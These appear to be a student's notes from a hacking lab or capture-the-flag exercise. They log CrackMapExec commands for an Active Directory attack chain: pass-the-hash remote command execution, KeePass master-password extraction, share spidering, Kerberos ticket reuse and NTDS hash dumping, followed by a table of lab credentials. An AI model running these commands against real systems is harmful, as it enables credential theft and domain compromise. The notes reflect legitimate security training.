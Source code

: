 
*Command*: Get 3rd flag
-  proxychains4 -q crackmapexec smb 172.16.15.20 -u 'svc_devadm$' -H a995d569117ec719c2402c966867569a -x 'type C:\Users\Administrator\Desktop\flag.txt'

*Result:* 3rd flag + found keepass file 

---

*Command*: Trigger keepass module to extract master password
-  cme smb 172.16.15.20 -u 'svc_devadm$' -H hash -M keepass_discover
-  cme smb 172.16.15.20 -u 'svc_devadm$' -H hash -M keepass_trigger -o ACTION=ADD KEEPASS_CONFIG_PATH='C:/Users/Administrator/AppData/Roaming/KeePass/KeePass.config.xml'
- cme  smb 172.16.15.20 -u 'svc_devadm$' -H hash -M keepass_trigger -o ACTION=POLL


*Result:* Found files + trigger added + exportted file create 

---

*Command*: Read /tmp/export.xml file

*Result:* Found user nick + password

---

*Command*: Extract files from shares Ccache 
- cme smb 172.16.15.3 -M spider_plus -o READ_ONLY=false

*Result:* read 4th flag + found svc_inlane.ccache + new user svc_inlaneadm

---

*Command*: change name of ccache file + create 
- mv big_file_name.ccaches svc_inlanaeadm.ccaches
- export KRB5CCNAME=/home/kalilearn/git/hacklab/academy/cme/svc_inlaneadm.ccaches

*Result:* ccache file without special characters

---

*Command*: Dump hashes with ntds
- cme smb 172.16.15.3 --use-kcache --ntds

*Result:* Found administrator hash

---

*Command*: Read flag
cme smb 172.16.15.3 -u Administrator -H 935f8a2f4fc9ec7b45c54a1044c74c08 -x 'type C:\Users\Administrator\Desktop\flag.txt'

*Result:* Flag

---

### Credentials Found
|   Username    |      Password      |            Note            |
| :-----------: | :----------------: | :------------------------: |
|   Juliette    |     Password1      |          1st flag          |
|     Atul      |      hooters1      |          kerbast           |
|    sqldev     |     Sq!D3vUs3R     | pwnd, priv esc, from share |
|   intern30    |      Welcome1      |         from mssql         |
|     james     |      04apple       |         -M drop-sc         |
|  svc_devadm$  |        hash        |  pwnd, from james, --gmsa  |
|     nick      | ASU934as0-dm23asd! |        from keepass        |